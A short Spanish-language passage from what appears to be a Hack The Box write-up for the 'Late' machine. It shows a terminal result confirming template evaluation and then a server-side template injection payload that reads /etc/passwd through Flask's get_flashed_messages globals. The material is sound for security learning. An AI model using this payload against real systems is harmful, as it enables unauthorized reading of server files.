 <img  src="/assets/images/htb-writeup-late/siete.png" style="width:50%; display: block; margin-left: auto;  margin-right: auto;">

```bash
 ┌──(root㉿kali)-[/home/…/Documents/HTB/Late/content]
└─# cat /home/kali/Downloads/results.txt 
<p>49
</p>                                                                                                                              
``` 
Posteriormente subí otra imagen con la siguiente instrucción para poder leer archivos de la máquina, en este caso el /etc/passwd: <br>
**\{\{ get\_flashed\_messages.\_\_globals\_\_.\__builtins\_\_\.open\(\"/etc/passwd\"\).read\(\) }\}**

![](/assets/images/htb-writeup-late/etc_pass.png)
